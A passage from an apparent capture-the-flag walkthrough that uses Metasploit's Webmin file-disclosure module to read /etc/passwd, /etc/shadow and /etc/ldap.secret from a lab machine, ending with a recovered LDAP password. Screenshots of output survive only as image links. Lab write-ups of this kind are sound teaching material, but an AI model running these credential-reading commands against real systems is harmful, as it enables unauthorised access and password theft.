





5. Retrieve /etc/passwd
So that can we can escalate privilege on the Target Machine as the flag would only be accessible by the root user. This can be done as shown by using the auxiliary admin/webmin/file_disclosure.
Launch msfconsole
Output:

Run the following commands within msfconsole.
a) Look for “webmin” exploits
Command: search webmin
Output:

b) Retrieve /etc/passwd file
We can escalate privilege on the Target Machine as the flag would only be accessible by the root user.
Command: use auxiliary/admin/webmin/file_disclosure
Command: set rhost 192.168.1.130
Command: run
Output:

And we have the /etc/passwd file of the Target but this is only the half of the job because without the shadow file this file is of no use.
c) Retrieve /etc/passwd file
Command: use auxiliary/admin/webmin/file_disclosure
Command: set rhost 192.168.1.130
Command: set rpath /etc/shadow
Command: run
Output:

d) Retrieve ldap.secret file
During our initial enumeration, we also found that the target also has LDAP installed so let’s get this file too like it as it has the login credentials and the file is only be opened with the root privileges.
Output:

Command: use auxiliary/admin/webmin/file_disclosure
Command: set rhost 192.168.1.130
Command: set rpath /etc/ldap.secret
Command: run
Output:

As you can see that the file contains the password “canuhackme”.
 Index
Index